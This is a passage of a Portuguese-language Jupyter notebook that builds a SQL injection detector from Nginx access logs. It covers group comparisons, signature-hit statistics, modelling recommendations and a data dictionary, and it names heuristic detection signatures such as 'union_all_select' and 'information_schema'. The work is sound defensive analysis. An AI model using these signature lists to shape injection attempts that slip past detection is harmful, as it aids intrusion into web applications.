7,comment_block,2,0.009500,0.0095,0.002121,271.500000,271.5,347.189430
8,information_schema,2,0.009500,0.0095,0.002121,271.500000,271.5,347.189430
9,union_all_select,2,0.009500,0.0095,0.002121,271.500000,271.5,347.189430


<Figure size 1000x500 with 0 Axes>



<Figure size 1000x500 with 0 Axes>



In [26]:
df_sig_metrics = (
    df_analitica[df_analitica["target_signature"] == 1]
    .copy()
)

df_sig_metrics = df_sig_metrics.assign(
    signature_unit=df_sig_metrics["signature_hits_str"].str.split(" | ", regex=False)
).explode("signature_unit")

df_sig_metrics = df_sig_metrics[
    df_sig_metrics["signature_unit"].notna() &
    (df_sig_metrics["signature_unit"].astype(str).str.strip() != "") &
    (df_sig_metrics["signature_unit"].astype(str).str.strip() != "No_Match")
].copy()

for col in ["request_time", "body_bytes_sent"]:
    df_sig_metrics[col] = pd.to_numeric(df_sig_metrics[col], errors="coerce")

df_signature_stats = (
    df_sig_metrics
    .groupby("signature_unit", dropna=False)
    .agg(
        frequencia=("signature_unit", "size"),
        request_time_media=("request_time", "mean"),
        request_time_mediana=("request_time", "median"),
        request_time_desvio_padrao=("request_time", "std"),
        body_bytes_sent_media=("body_bytes_sent", "mean"),
        body_bytes_sent_mediana=("body_bytes_sent", "median"),
        body_bytes_sent_desvio_padrao=("body_bytes_sent", "std")
    )
    .reset_index()
    .sort_values("frequencia", ascending=False)
    .reset_index(drop=True)
)

print("Shape de df_signature_stats:", df_signature_stats.shape)
display(df_signature_stats)

top_signatures = df_signature_stats["signature_unit"].head(8).tolist()
df_sig_plot = df_sig_metrics[df_sig_metrics["signature_unit"].isin(top_signatures)].copy()

plt.figure(figsize=(10, 5))
df_sig_plot.boxplot(column="request_time", by="signature_unit", rot=45)
plt.title("Boxplot de request_time por assinatura heurística")
plt.suptitle("")
plt.xlabel("signature_unit")
plt.ylabel("request_time")
plt.grid(True, alpha=0.3)
plt.show()

plt.figure(figsize=(10, 5))
df_sig_plot.boxplot(column="body_bytes_sent", by="signature_unit", rot=45)
plt.title("Boxplot de body_bytes_sent por assinatura heurística")
plt.suptitle("")
plt.xlabel("signature_unit")
plt.ylabel("body_bytes_sent")
plt.grid(True, alpha=0.3)
plt.show()

### 26. Comparação estatística entre grupos positivos e negativos

In [27]:
df_group_compare = df_analitica.copy()

cols_compare = [
    "request_time",
    "body_bytes_sent",
    "param_value_decoded_length",
    "signature_hit_count",
    "request_success"
]

for col in cols_compare:
    df_group_compare[col] = pd.to_numeric(df_group_compare[col], errors="coerce")

comparacao_grupos = (
    df_group_compare
    .groupby("target_final_binario", dropna=False)
    .agg(
        quantidade=("target_final_binario", "size"),
        request_time_media=("request_time", "mean"),
        request_time_mediana=("request_time", "median"),
        body_bytes_sent_media=("body_bytes_sent", "mean"),
        body_bytes_sent_mediana=("body_bytes_sent", "median"),
        param_value_decoded_length_media=("param_value_decoded_length", "mean"),
        param_value_decoded_length_mediana=("param_value_decoded_length", "median"),
        signature_hit_count_media=("signature_hit_count", "mean"),
        signature_hit_count_mediana=("signature_hit_count", "median"),
        request_success_media=("request_success", "mean")
    )
    .reset_index()
)

print("Shape de comparacao_grupos:", comparacao_grupos.shape)
display(comparacao_grupos)

# diferença absoluta entre os grupos, quando houver 0 e 1
if set(comparacao_grupos["target_final_binario"].dropna().tolist()) >= {0, 1}:
    base_diff = comparacao_grupos.set_index("target_final_binario")

    diferencas_grupos = pd.DataFrame({
        "metrica": [
            "request_time_media",
            "body_bytes_sent_media",
            "param_value_decoded_length_media",
            "signature_hit_count_media",
            "request_success_media"
        ],
        "grupo_0": [
            base_diff.loc[0, "request_time_media"],
            base_diff.loc[0, "body_bytes_sent_media"],
            base_diff.loc[0, "param_value_decoded_length_media"],
            base_diff.loc[0, "signature_hit_count_media"],
            base_diff.loc[0, "request_success_media"]
        ],
        "grupo_1": [
            base_diff.loc[1, "request_time_media"],
            base_diff.loc[1, "body_bytes_sent_media"],
            base_diff.loc[1, "param_value_decoded_length_media"],
            base_diff.loc[1, "signature_hit_count_media"],
            base_diff.loc[1, "request_success_media"]
        ]
    })

    diferencas_grupos["diferenca_absoluta"] = (
        diferencas_grupos["grupo_1"] - diferencas_grupos["grupo_0"]
    )

    print("\nDiferenças entre grupo positivo e grupo negativo:")
    display(diferencas_grupos)

Shape de comparacao_grupos: (2, 11)


,target_final_binario,quantidade,request_time_media,request_time_mediana,body_bytes_sent_media,body_bytes_sent_mediana,param_value_decoded_length_media,param_value_decoded_length_mediana,signature_hit_count_media,signature_hit_count_mediana,request_success_media
0,0,2649,0.010462,0.010,497.144960,517.0,8.203096,4.0,0.000000,0.0,1.000000
1,1,978,0.010861,0.011,30.493865,30.0,119.393661,105.0,1.822086,1.0,0.998978



Diferenças entre grupo positivo e grupo negativo:


,metrica,grupo_0,grupo_1,diferenca_absoluta
0,request_time_media,0.010462,0.010861,0.000399
1,body_bytes_sent_media,497.144960,30.493865,-466.651095
2,param_value_decoded_length_media,8.203096,119.393661,111.190565
3,signature_hit_count_media,0.000000,1.822086,1.822086
4,request_success_media,1.000000,0.998978,-0.001022


### 27. Conclusões para a modelagem

In [28]:
recomendacoes_modelagem = pd.DataFrame([
    {
        "topico": "Transformações",
        "recomendacao": "Testar log1p e/ou escalonamento robusto em request_time e comprimentos de payload",
        "justificativa": "As distribuições apresentaram assimetria à direita, caudas longas e presença de outliers"
    },
    {
        "topico": "Variáveis promissoras",
        "recomendacao": "Priorizar param_value_decoded_length, param_value_raw_length, body_bytes_sent e param_value_was_changed",
        "justificativa": "Essas variáveis mostraram maior separação entre grupos e/ou maior correlação com o target"
    },
    {
        "topico": "Variáveis complementares",
        "recomendacao": "Manter request_time como atributo auxiliar",
        "justificativa": "A variável apresentou alguma diferença entre grupos, mas com baixo poder isolado de separação"
    },
    {
        "topico": "Variáveis fracas",
        "recomendacao": "Reavaliar request_success e param_position",
        "justificativa": "Essas variáveis mostraram baixa variabilidade e pouca capacidade discriminatória na base atual"
    },
    {
        "topico": "Risco de vazamento",
        "recomendacao": "Usar signature_hit_count com cautela em treino supervisionado",
        "justificativa": "A variável está muito próxima do próprio mecanismo heurístico que gerou o target atual"
    },
    {
        "topico": "Tipo de modelo",
        "recomendacao": "Priorizar modelos baseados em árvores nas próximas fases",
        "justificativa": "Os dados apresentam não linearidade, assimetria, outliers e relações não gaussianas"
    },
    {
        "topico": "Próxima fase",
        "recomendacao": "Expandir a dimensão de payloads e aumentar a cobertura de logs rotulados",
        "justificativa": "Match exato e contenção ainda não retornaram positivos na base atual, limitando a rotulagem por catálogo"
    }
])

print("Shape de recomendacoes_modelagem:", recomendacoes_modelagem.shape)
display(recomendacoes_modelagem)

Shape de recomendacoes_modelagem: (7, 3)


,topico,recomendacao,justificativa
0,Transformações,Testar log1p e/ou escalonamento robusto em req...,As distribuições apresentaram assimetria à dir...
1,Variáveis promissoras,"Priorizar param_value_decoded_length, param_va...",Essas variáveis mostraram maior separação entr...
2,Variáveis complementares,Manter request_time como atributo auxiliar,A variável apresentou alguma diferença entre g...
3,Variáveis fracas,Reavaliar request_success e param_position,Essas variáveis mostraram baixa variabilidade ...
4,Risco de vazamento,Usar signature_hit_count com cautela em treino...,A variável está muito próxima do próprio mecan...
5,Tipo de modelo,Priorizar modelos baseados em árvores nas próx...,"Os dados apresentam não linearidade, assimetri..."
6,Próxima fase,Expandir a dimensão de payloads e aumentar a c...,Match exato e contenção ainda não retornaram p...


### 28. Persistência das tabelas analíticas em processed

In [29]:
processed_dir = Path("/content/drive/MyDrive/LogsSQLi/data/processed")
processed_dir.mkdir(parents=True, exist_ok=True)

arquivos_salvos = []

def salvar_csv(df, nome_arquivo):
    caminho = processed_dir / nome_arquivo
    df.to_csv(caminho, index=False, encoding="utf-8")
    arquivos_salvos.append({
        "arquivo": nome_arquivo,
        "linhas": len(df),
        "colunas": len(df.columns),
        "caminho": str(caminho)
    })

# principais tabelas do pipeline
salvar_csv(df_params, "df_params.csv")
salvar_csv(df_payload_dim, "df_payload_dim.csv")
salvar_csv(df_match_exato, "df_match_exato.csv")
salvar_csv(df_match_contains, "df_match_contains.csv")
salvar_csv(df_params_signature, "df_params_signature.csv")
salvar_csv(df_analitica, "df_analitica.csv")

# tabelas da EDA
salvar_csv(df_estatisticas_numericas, "df_estatisticas_numericas.csv")
salvar_csv(df_outliers_iqr, "df_outliers_iqr.csv")
salvar_csv(df_signature_stats, "df_signature_stats.csv")
salvar_csv(comparacao_grupos, "comparacao_grupos.csv")
salvar_csv(diferencas_grupos, "diferencas_grupos.csv")
salvar_csv(recomendacoes_modelagem, "recomendacoes_modelagem.csv")

# proporções
salvar_csv(df_prop_signature, "df_prop_signature.csv")
salvar_csv(df_prop_dim, "df_prop_dim.csv")

df_arquivos_salvos = pd.DataFrame(arquivos_salvos)

print("Shape de df_arquivos_salvos:", df_arquivos_salvos.shape)
display(df_arquivos_salvos)

print("\nArquivos em processed:")
for p in sorted(processed_dir.iterdir()):
    print("-", p.name)

Shape de df_arquivos_salvos: (14, 4)


,arquivo,linhas,colunas,caminho
0,df_params.csv,3627,19,/content/drive/MyDrive/LogsSQLi/data/processed...
1,df_payload_dim.csv,177,6,/content/drive/MyDrive/LogsSQLi/data/processed...
2,df_match_exato.csv,3627,28,/content/drive/MyDrive/LogsSQLi/data/processed...
3,df_match_contains.csv,3627,27,/content/drive/MyDrive/LogsSQLi/data/processed...
4,df_params_signature.csv,3627,23,/content/drive/MyDrive/LogsSQLi/data/processed...
5,df_analitica.csv,3627,32,/content/drive/MyDrive/LogsSQLi/data/processed...
6,df_estatisticas_numericas.csv,9,15,/content/drive/MyDrive/LogsSQLi/data/processed...
7,df_outliers_iqr.csv,6,9,/content/drive/MyDrive/LogsSQLi/data/processed...
8,df_signature_stats.csv,11,8,/content/drive/MyDrive/LogsSQLi/data/processed...
9,comparacao_grupos.csv,2,11,/content/drive/MyDrive/LogsSQLi/data/processed...



Arquivos em processed:
- comparacao_grupos.csv
- df_analitica.csv
- df_estatisticas_numericas.csv
- df_match_contains.csv
- df_match_exato.csv
- df_outliers_iqr.csv
- df_params.csv
- df_params_signature.csv
- df_payload_dim.csv
- df_prop_dim.csv
- df_prop_signature.csv
- df_signature_stats.csv
- diferencas_grupos.csv
- recomendacoes_modelagem.csv


### 29. Síntese final da EDA e implicações para as próximas fases

In [30]:
total_parametros = len(df_analitica)
positivos_finais = int(df_analitica["target_final_binario"].sum())
negativos_finais = int((df_analitica["target_final_binario"] == 0).sum())

positivos_match_exato = int(df_match_exato["target_sqli_match_exato"].sum())
positivos_contains = int(df_match_contains["target_sqli_contains"].sum())
positivos_signature = int(df_params_signature["target_sqli_signature"].sum())

texto_sintese = f"""
Síntese da EDA

1. A base analítica final foi consolidada com {total_parametros} parâmetros extraídos dos logs HTTP.
2. O target final binário identificou {positivos_finais} parâmetros suspeitos e {negativos_finais} parâmetros não suspeitos.
3. As estratégias baseadas em dimensão ainda não encontraram correspondências na base atual:
   - Match exato: {positivos_match_exato}
   - Contenção: {positivos_contains}
4. A heurística por assinaturas foi a única estratégia com detecção positiva, totalizando {positivos_signature} parâmetros suspeitos.
5. As variáveis que mais diferenciaram os grupos ao longo da EDA foram:
   - param_value_decoded_length
   - body_bytes_sent
   - signature_hit_count
6. request_time apresentou alguma diferença entre grupos, mas com menor poder isolado de separação.
7. request_success e param_position mostraram baixo potencial discriminatório na base atual.
8. A base sugere que, na próxima fase, será importante:
   - ampliar a dimensão de payloads;
   - coletar mais logs rotulados;
   - testar transformações em variáveis assimétricas;
   - priorizar modelos baseados em árvores.
"""

print(texto_sintese)


Síntese da EDA

1. A base analítica final foi consolidada com 3627 parâmetros extraídos dos logs HTTP.
2. O target final binário identificou 978 parâmetros suspeitos e 2649 parâmetros não suspeitos.
3. As estratégias baseadas em dimensão ainda não encontraram correspondências na base atual:
   - Match exato: 0
   - Contenção: 0
4. A heurística por assinaturas foi a única estratégia com detecção positiva, totalizando 978 parâmetros suspeitos.
5. As variáveis que mais diferenciaram os grupos ao longo da EDA foram:
   - param_value_decoded_length
   - body_bytes_sent
   - signature_hit_count
6. request_time apresentou alguma diferença entre grupos, mas com menor poder isolado de separação.
7. request_success e param_position mostraram baixo potencial discriminatório na base atual.
8. A base sugere que, na próxima fase, será importante:
   - ampliar a dimensão de payloads;
   - coletar mais logs rotulados;
   - testar transformações em variáveis assimétricas;
   - priorizar modelos basead

### 30. Transformações realizadas nesta etapa

Durante o ETL e a EDA, foram realizadas as seguintes transformações principais:

- padronização de tipos de dados para variáveis numéricas relevantes à análise;
- parsing da linha `request` em método HTTP, URL completa, caminho, query string e protocolo;
- criação de métricas derivadas relacionadas ao tamanho e à estrutura da requisição;
- expansão da query string em parâmetros individuais, preservando vínculo com a requisição original por meio de `log_id`;
- decodificação e normalização avançada dos valores dos parâmetros observados no log;
- criação de chaves textuais padronizadas para comparação entre payloads observados e payloads de referência;
- consolidação da dimensão de payloads em nível de chave padronizada;
- construção de estratégias distintas de detecção: match exato, contenção e heurística por assinaturas;
- consolidação de uma base analítica final com target binário e tipo provisório de SQLi;
- persistência das tabelas intermediárias e finais na camada `processed`.

### 31. Encaminhamento para as próximas fases

A análise exploratória mostrou que a base já permite identificar padrões relevantes de requisições suspeitas, sobretudo por meio da estratégia heurística baseada em assinaturas. Nesta fase, as variáveis com maior potencial explicativo foram o comprimento do payload decodificado (`param_value_decoded_length`), o volume de dados retornado (`body_bytes_sent`) e a quantidade de assinaturas acionadas (`signature_hit_count`), enquanto `request_time` demonstrou utilidade complementar. Em contrapartida, `request_success` e `param_position` apresentaram baixo poder discriminatório na base atual.

Também se observou que, embora a dimensão de payloads esteja estruturada e pronta para reaproveitamento, ela ainda não gerou correspondências positivas por match exato ou por contenção. Isso indica que, para as próximas fases, será importante ampliar o catálogo de payloads, incorporar novas variações observadas nos logs reais e aumentar o volume de registros rotulados. Com isso, será possível evoluir de uma detecção predominantemente heurística para uma abordagem supervisionada mais robusta, capaz de classificar a requisição como não SQLi, SQLi e, adicionalmente, identificar o tipo do ataque.

Dessa forma, a próxima etapa do projeto deverá priorizar: (i) o enriquecimento da dimensão de payloads, (ii) a ampliação da base de logs com novos exemplos rotulados, (iii) a avaliação de transformações em variáveis assimétricas e (iv) o teste inicial de modelos supervisionados, com preferência por algoritmos baseados em árvores, devido à presença de não linearidade, assimetria e outliers observados ao longo desta etapa.

### 32. Dicionário de dados da base analítica e das tabelas auxiliares

### Dicionário de dados

| Variável | Tipo | Origem | Descrição |
|---|---|---|---|
| `remote_addr` | Categórica textual | Log original | Endereço IP de origem da requisição. |
| `remote_user` | Categórica textual | Log original | Usuário associado à requisição, quando disponível. |
| `time_local` | Data/hora textual | Log original | Timestamp bruto da requisição registrado pelo Nginx. |
| `request` | Categórica textual | Log original | Linha completa da requisição HTTP. |
| `status` | Categórica textual | Log original / tratada | Código de status HTTP retornado pela aplicação, mantido como categoria. |
| `body_bytes_sent` | Numérica contínua | Log original / tratada | Quantidade de bytes enviados na resposta HTTP. |
| `http_referer` | Categórica textual | Log original | Referer informado na requisição. |
| `http_user_agent` | Categórica textual | Log original | User-Agent informado na requisição. |
| `request_time` | Numérica contínua | Log original / tratada | Tempo de resposta da requisição. |
| `request_success` | Numérica binária | Derivada | Indicador simplificado de sucesso da requisição (0 = não sucesso, 1 = sucesso HTTP 200). |
| `log_id` | Numérica discreta | Derivada técnica | Identificador único da requisição original, criado para garantir rastreabilidade no pipeline. |
| `http_method` | Categórica textual | Derivada de `request` | Método HTTP extraído da linha da requisição, como GET ou POST. |
| `url_full` | Categórica textual | Derivada de `request` | URL completa extraída da requisição, incluindo caminho e query string. |
| `url_path` | Categórica textual | Derivada de `request` | Caminho da URL acessada, sem a query string. |
| `query_string` | Categórica textual | Derivada de `request` | Parte da URL que contém os parâmetros enviados na requisição. |
| `http_protocol` | Categórica textual | Derivada de `request` | Protocolo HTTP identificado na linha da requisição. |
| `has_query_string` | Numérica binária | Derivada | Indicador de presença de query string na requisição (0 = não, 1 = sim). |
| `request_length` | Numérica discreta | Derivada | Comprimento total da linha da requisição HTTP em caracteres. |
| `path_length` | Numérica discreta | Derivada | Comprimento do caminho da URL em caracteres. |
| `query_string_length` | Numérica discreta | Derivada | Comprimento total da query string em caracteres. |
| `param_position` | Numérica discreta | Derivada da `query_string` | Posição do parâmetro dentro da query string expandida. |
| `param_raw` | Categórica textual | Derivada da `query_string` | Representação bruta do parâmetro no formato original extraído da query string. |
| `param_name_raw` | Categórica textual | Derivada da `query_string` | Nome bruto do parâmetro extraído da query string. |
| `param_value_raw` | Categórica textual | Derivada da `query_string` | Valor bruto do parâmetro, ainda em formato potencialmente codificado ou ofuscado. |
| `has_equals_sign` | Numérica binária | Derivada | Indicador de presença do caractere `=` no parâmetro expandido. |
| `param_value_decoded` | Categórica textual | Derivada | Valor do parâmetro após decodificação e normalização avançada, incluindo URL decode, HTML unescape e tentativa de decodificação adicional. |
| `param_value_match_key` | Categórica textual | Derivada | Chave textual padronizada para comparação entre os valores observados no log e os payloads de referência. |
| `param_value_raw_length` | Numérica discreta | Derivada | Comprimento do valor bruto do parâmetro em caracteres. |
| `param_value_decoded_length` | Numérica discreta | Derivada | Comprimento do valor decodificado do parâmetro em caracteres. |
| `param_value_was_changed` | Numérica binária | Derivada | Indicador de que o valor do parâmetro foi alterado durante a etapa de decodificação/normalização. |
| `Payload` | Categórica textual | Dimensão de payloads | Payload original presente no dataset de referência. |
| `Tipo` | Categórica textual | Dimensão de payloads | Tipo de SQL Injection informado no dataset de referência, como `Boolean_Based`, `Union_Based`, `Error_Based`, `Time_Based`, entre outros. |
| `payload_match_key` | Categórica textual | Dimensão de payloads / derivada | Chave textual padronizada do payload de referência, utilizada para comparação com os parâmetros observados no log. |
| `payload_example` | Categórica textual | Dimensão consolidada | Exemplo representativo de payload associado a uma chave padronizada consolidada. |
| `qtd_payloads_origem` | Numérica discreta | Dimensão consolidada | Quantidade de payloads originais da dimensão que geraram a mesma chave padronizada. |
| `qtd_tipos_distintos` | Numérica discreta | Dimensão consolidada | Quantidade de tipos distintos associados à mesma chave padronizada. |
| `tipos_encontrados` | Categórica textual estruturada | Dimensão consolidada | Conjunto de tipos de SQL Injection associados à mesma chave padronizada. |
| `tipo_match_exato` | Categórica textual | Dimensão consolidada | Tipo resultante da consolidação da dimensão para a chave padronizada; pode assumir um tipo único ou indicar ambiguidade. |
| `target_sqli_match_exato` | Numérica binária | Derivada | Indicador de detecção de SQLi por correspondência exata com a dimensão de payloads. |
| `match_exato_ambiguous` | Numérica binária | Derivada | Indicador de ambiguidade na correspondência exata, quando a chave está associada a mais de um tipo na dimensão. |
| `tipo_match_exato_final` | Categórica textual | Derivada | Tipo final retornado pela correspondência exata, ou `No_Match` quando não há correspondência. |
| `target_sqli_contains` | Numérica binária | Derivada | Indicador de detecção por contenção entre o valor observado no log e os payloads da dimensão. |
| `contains_match_count` | Numérica discreta | Derivada | Quantidade de correspondências encontradas na estratégia por contenção. |
| `contains_ambiguous` | Numérica binária | Derivada | Indicador de ambiguidade na estratégia por contenção. |
| `tipo_contains_final` | Categórica textual | Derivada | Tipo final atribuído pela estratégia de contenção, ou `No_Match` quando não há correspondência. |
| `target_sqli_signature` | Numérica binária | Derivada heurística | Indicador de detecção de SQLi por assinaturas/padrões heurísticos. |
| `signature_hit_count` | Numérica discreta | Derivada heurística | Quantidade de assinaturas heurísticas acionadas pelo parâmetro analisado. |
| `signature_hits_str` | Categórica textual | Derivada heurística | Assinaturas heurísticas acionadas para o parâmetro, representadas em formato textual. |
| `target_final_binario` | Numérica binária | Derivada analítica | Target final binário consolidado da base analítica, considerando match exato, contenção e heurística. |
| `tipo_sqli_dim_payloads` | Categórica textual | Derivada analítica | Tipo do SQLi vindo da dimensão de payloads quando há correspondência por match exato ou contenção; caso contrário, `No_Match`. |
| `tipo_final_provisorio` | Categórica textual | Derivada analítica | Tipo final provisório adotado na base analítica consolidada, considerando a prioridade entre match exato, contenção e heurística. |